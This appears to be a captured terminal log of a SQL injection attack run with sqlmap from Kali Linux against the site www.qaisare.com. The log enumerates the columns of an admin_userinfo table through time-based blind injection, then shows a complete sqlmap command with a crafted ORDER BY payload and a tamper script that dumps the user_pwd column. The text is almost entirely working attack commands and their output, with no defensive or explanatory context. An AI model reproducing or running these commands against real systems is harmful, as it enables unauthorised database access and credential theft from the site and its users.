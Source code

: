 [16:45:15] [INFO] retrieved: keyword                                                             
[16:45:30] [INFO] retrieved: channel                                                             
[16:45:41] [INFO] tried 194/2499 items (8%)

[16:45:42] [INFO] adjusting time delay to 1 second due to good response times
[16:45:42] [INFO] retrieved: student_number                                                      
[16:47:24] [INFO] retrieved: user_pwd                                                            
[16:48:50] [INFO] retrieved: fre_disciplina                                                      
[16:49:34] [INFO] retrieved: sitepref_name                                                       
[16:51:43] [INFO] retrieved: bst_time                                                            
[16:52:04] [INFO] retrieved: page_name                                                           
[16:53:03] [INFO] retrieved: can_codice                                                          
[16:53:06] [INFO] retrieved: mod_freeway_services                                                
[16:53:56] [INFO] retrieved: pff_id                                                              
[16:54:37] [INFO] retrieved: anelli                                                              
[16:55:14] [INFO] retrieved: postcount                                                           
                                                                                                 
Database: qaisare_com
Table: admin_userinfo
[13 columns]
+----------------------+---------+
| Column               | Type    |
+----------------------+---------+
| anelli               | numeric |
| bst_time             | numeric |
| can_codice           | numeric |
| channel              | numeric |
| fre_disciplina       | numeric |
| keyword              | numeric |
| mod_freeway_services | numeric |
| page_name            | numeric |
| pff_id               | numeric |
| postcount            | numeric |
| sitepref_name        | numeric |
| student_number       | numeric |
| user_pwd             | numeric |
+----------------------+---------+

[16:55:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 16:55:43

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C user_pwd --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
